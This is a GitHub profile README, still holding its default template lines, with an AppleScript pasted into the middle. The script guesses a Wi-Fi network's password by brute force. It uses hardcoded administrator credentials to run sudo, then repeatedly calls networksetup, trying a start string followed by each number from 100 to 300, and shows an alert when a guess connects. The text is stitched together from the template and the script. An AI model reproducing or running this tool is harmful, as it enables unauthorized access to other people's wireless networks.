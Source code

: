 - 👋 Hi, I’m @Tyty100
# Change the variables
set BSSID to "NetworkBSSID"
set startString to "pwdStartString"
set computerUsername to "username"
set computerPassword to "password"

# Enables Accessibility
do shell script "sudo touch /private/var/db/.AccessibilityAPIEnabled" user name computerUsername password computerPassword with administrator privileges

# Set your desired password range to try
repeat with ink from 100 to 300
	set myPassword to startString & ink
	try
		set error to "none"
		do shell script "networksetup -setairportnetwork" & space & quoted form of BSSID & space & quoted form of myPassword with administrator privileges
	on error errStr
		set error to errStr
	end try
	if error = "none" then
		display alert "Password is: " & myPassword
		exit repeat
	end if
end repeat- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Tyty100/Tyty100 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
